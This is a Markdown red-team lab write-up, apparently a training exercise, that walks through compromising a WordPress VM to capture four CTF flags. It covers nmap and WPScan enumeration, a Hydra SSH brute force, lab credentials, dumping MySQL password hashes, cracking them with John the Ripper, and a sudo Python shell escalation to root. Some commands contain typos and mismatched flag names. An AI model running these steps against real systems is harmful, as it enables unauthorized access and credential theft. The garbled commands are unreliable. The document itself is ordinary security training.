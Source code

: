 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

- Nmap scan results for each machine reveal the below services and OS details:

- Command: $ nmap -sV 192.168.1.110
*****INSERT NMAP SCAN SCREENSHOT IN GITHUB******

- This scan identifies the services below as potential points of entry:

## Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn


The following vulnerabilities were identified on each target:
## Target 1
  - User Enumeration (Wordpress Website)
  - Weak password/usernames (CWE-521)
  - Brute Force SSH to gain access to system
  - Unsalted password hash and privelege escalation with Python (CWE-328)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - WPScan to enumerate users on the Target1 Wordpress website.
      - $ wpscan --url 192.168.1.110/wordpress
      - $ wpscan --url 192.168.1.110 --enumerate -u
        - It was known the users password was weak and obvious. It was guessed before any commands were used but for practice, we used Hydra to crack Michael's password.
          - Command: hydra -l michael -p /usr/sahre/wordlists/rockyou.txt -vV 192.16.1.110 -t 4 ssh
          **INSERT PICTURE OF HYDRA COMMAND** 
        - flag1 was found in /var/www/html folder after searching through each file in the directory. The flag1 was found in the services.html in an HTML comment near the bottom of the HTML file. 
            - Commands: 
              - ssh michael@192.168.1.110
              - password: michael
              - cd /var/www
              - ls -l
              - cat flag2.txt
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Manaully brute forced Michael's password, and also used Hydra for good measure. His password (password: michael) was weak and easily guessable. This allowed us to SSH into his machine and find flag2. The steps to find the second flag were similar to when we found flag1.
      - flag2 was discovered in /var/www next to a directory named "html".
      - Commands:
        - ssh michael@192.168.1.110
        - password: michael
        - cd /var/www
        - ls -l
        - cat flag2.txt
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used** 
      - Same exploits as flag1 and flag2.
      - Once in Michael's system, we captured flag3.txt by accessing the MYSQL database
        - After searching through wp-config.php, we had access to his MYSQL database login credentials and were able to further explore the database.
      - Commands:
        - mysql -u root -p
        - We were then prompted for a password, which is 'R@v3nSecurity'
        - show databases;
        - use wordpress;
        - select * from wp_posts;

        **INSERT MYSQL SCREENSHOTS**

  - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used** 
      - Unsalted hash and privilege escalation with Python command.
      - For flag4, we cracked user Steven's password using John the Ripper, and looked at Stevens privileges using "sudo -l" ti find how we can escalte our privilege to root.
      - After getting access to the MYSQL database, we found the user's password hashes in the wp_users table. The password hashes were saved on the Kali machine in "wp_hashes.txt" for later use.
          - Commands:
            - mysql -u root -p
            - password: R@v3nSecurity
            - show databases;
            - use wordpress;
            - show tables;
            - select * from wp_users;
      - The wp_hashes.txt file containing Steven's password hashes was cracked using John the Ripper. 
        - Command:
          - john wp_hashes.txt
      
      - After getting Stevens password, we could now SSH into the server as Steven.
        -Commands: 
          - ssh steven@192.168.1.110
          - password: pink84
          - sudo -l
          - Sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
      - This Python command allowed us to be the "root@target1" user (Steven).
          - ls
          - cat flag4.txt

          **INSERT FLAG4 SCREENSHOT**